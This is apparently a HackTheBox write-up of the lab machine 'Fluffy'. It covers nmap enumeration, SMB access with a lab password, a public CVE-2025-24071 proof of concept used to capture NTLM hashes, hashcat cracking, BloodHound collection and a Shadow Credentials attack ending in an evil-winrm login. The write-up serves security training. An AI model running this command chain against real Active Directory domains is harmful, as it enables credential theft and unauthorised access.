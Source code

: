 # HTB - Fluffy 🐇

Welcome to my writeup for the HackTheBox machine Fluffy. Fluffy is a easy Windows Active Directory box that focuses on enumeration, SMB exploitation, Kerberos attacks, and privilege escalation. 
This repository is for educational purposes only.

## Nmap Scan

```
Nmap scan report for 10.129.127.23
Host is up (0.035s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-20 21:05:51Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```


### Key Findings
- Exposed SMB shares
- Kerberos & LDAP suggest Active Directory Domain Controller
- WinRM service available


```
smbmap -H 10.129.186.239 -u j.fleischman -p J0elTHEM4n1990!

smbclient //10.129.186.239/IT -U 'j.fleischman'

mget *
```

On SMB, we see that we have write permission for the IT share, and we find a PDF with vulnerabilities.

Now that we have the list of vulnerabilities, let's move on to exploits.


To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 ```exploit.py -i 10.10.16.40 -s shared -f evil```
 3. Start listener for hash capture:
   ```sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support```
   3. Upload payload to target IT share.
      ``put evil.zip``

4. You should se username + hash on listner.

5. Crack the with rockyou.txt: 
  ``` hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt``

  ```
    sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
  --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP> ```


Observations

User has GenericWrite permissions over the Service Accounts group, which allows access to WINRM_SVC, an account with WinRM permissions. Given that the user we were provided and the one we discovered do not have permission to execute evil-winrm, this appears to be the logical path for obtaining the flag.

In this scenario, `<USER>` is a member of the **Service Accounts** group and has `GenericWrite` permissions on the group. This opens the possibility for a **Shadow Credentials** attack.



## Preparations

- Install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`
- Starting a virtual environment might also be useful 

---

## Add User to Service Accounts

```bash
net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"


Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

sudo rdate -n <TARGET_IP>


Generate a TGT using faketime:

faketime '<DATE_TIME>' python3 gettgtpkinit.py \
  -cert-pem key_cert.pem \
  -key-pem key_priv.pem \
  fluffy.htb/<SERVICE_ACCOUNT> \
  <SERVICE_ACCOUNT>.ccache


Set the Kerberos ticket environment variable:

export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

Retrieve NT Hash
faketime '<DATE_TIME>' python3 getnthash.py \
  -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>

Access Service Account
evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>



